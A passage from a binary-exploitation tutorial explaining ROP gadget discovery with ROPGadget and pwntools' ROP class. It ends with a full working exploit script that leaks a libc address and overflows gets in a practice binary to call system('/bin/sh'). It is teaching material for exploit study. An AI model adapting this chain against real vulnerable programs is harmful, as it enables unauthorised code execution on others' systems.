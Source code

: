 We can use `ROPGadget` combined with `grep` filtering to quickly find gadgets of interest and use their offsets in our script to complete a ROP chain.

### `pwntools.rop.ROP`

`ROPGadget` is a phenomenal tool for command line use. However there is another way to fetch ROP gadgets dynamically within a `pwntools` script using the `ROP` class. The class accepts a file path or `ELF` instance for the targeted library.

The `ROP` class provides gadgets in an indexable dictionary and will always return the shortest length gadget found. One caveat is that the gadgets are not guaranteed to be two instructions long (such as `pop REG; ret`), so we should double check the length of the gadgets when leveraging this programmatically. For instance, the `rdx` register should have a gadget in `libc`, but it may be three instructions long. This is not necessarily a problem—we just need to remember to store a value to be popped into `rbx` afterward or our chain will be misaligned.

```
>>> from pwn import *
>>> r = ROP("/lib/x86_64-linux-gnu/libc.so.6")
[*] Loaded 207 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
>>> r.rdx
Gadget(0x933d9, ['pop rdx', 'pop rbx', 'ret'], ['rdx', 'rbx'], 0xc)
>>> 
```

We can easily construct our chain for the prior [[rop]] example with `ROP` addresses and register values defined in an array. After, we serialize the entries into little-endian eight-byte strings and concatenate everything together.

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]

p = gdb.debug("./rop", '''
b *(main + 115)
continue
''')

e = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

p.recvuntil(b"helpful...")
stdin = u64(p.recv(8))
p.recvuntil(b"\n")
glibc_base = stdin-e.symbols._IO_2_1_stdin_
assert glibc_base == glibc_base & ~0xfff, "Error: glibc base address not page-aligned!"

r = ROP(e)
e.address = glibc_base
bin_sh = next(e.search(b"/bin/sh"))
system = e.symbols.system

chain = [
    r.rdi.address + glibc_base, # pop rdi gadget
    bin_sh, # pop into rdi
    # at this point our ROP chain is an even number of quadwords. The next
    # `system` address will make it odd, meaning `sp` will not be 16-byte
    # aligned. A trick for keeping the stack aligned is adding a `ret`
    # instruction, which is essentially a no-op that advances the `sp` by 8
    r.ret.address + glibc_base, # align stack
    system # pop address of system into pc
]

# send '\n' for gets
p.sendline(b'A' * 0x38 + b"".join([p64(e) for e in chain]))
```
